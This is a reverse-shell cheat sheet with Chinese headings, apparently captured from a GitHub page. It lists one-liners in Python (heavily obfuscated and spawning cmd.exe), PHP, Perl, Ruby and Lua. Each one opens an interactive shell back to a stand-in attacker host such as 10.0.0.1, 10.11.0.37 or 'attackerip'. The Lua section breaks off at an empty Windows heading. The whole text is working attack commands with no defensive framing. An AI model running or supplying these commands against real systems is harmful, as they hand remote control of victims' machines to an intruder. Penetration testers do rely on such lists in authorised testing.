 ```bash
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.11.0.37', 4444)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"



# php反向shell
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'



# Perl反向shell
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
#
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[IPADDR]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
#NOTE: Windows only
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"[IPADDR]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
 



# Ruby反向shell
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
#不依赖于/bin/sh的反弹shell
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
#如果目标系统运行Windows反弹shell
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'



# Lua反向shell
#Linux
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
#Windows
```